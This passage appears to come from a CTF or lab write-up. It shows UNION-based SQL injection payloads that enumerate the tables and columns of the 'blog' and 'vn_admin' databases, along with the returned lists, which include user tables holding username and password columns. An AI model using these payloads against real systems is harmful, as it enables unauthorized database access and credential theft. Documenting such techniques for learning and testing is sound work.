 <figure><img src=".gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

### Tables

{% code overflow="wrap" lineNumbers="true" %}
```sql
# for blog
-554 UNION ALL SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema="blog" -- -
# blog_posts, details, metadata, users

# for vn_admin
-554 UNION ALL SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema="vn_admin" -- -
# "backend_layout,be_dashboards,be_groups,be_sessions,be_users,cache_adminpanel_requestcache,cache_adminpanel_requestcache_tags,cache_hash,cache_hash_tags,cache_imagesizes,cache_imagesizes_tags,cache_pages,cache_pages_tags,cache_pagesection,cache_pagesection_tags,cache_rootline,cache_rootline_tags,cache_treelist,fe_groups,fe_sessions,fe_users"
```
{% endcode %}

### Columns

{% code overflow="wrap" lineNumbers="true" %}
```sql
# users table
-554 UNION ALL SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name="users" -- -
# "id,username,password"

# for be_users Table
-554 UNION ALL SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name="be_users" -- -
# "uid,pid,tstamp,crdate,cruser_id,deleted,disable,starttime,endtime,description,username,avatar,password,admin,usergroup,lang,email,db_mountpoints,options,realName,userMods,allowed_languages,uc,file_mountpoints,file_permissions,workspace_perms,lockToDomain,disableIPlock,TSconfig,lastlogin,createdByAction,usergroup_cached_list,workspace_id,ca"
```
{% endcode %}
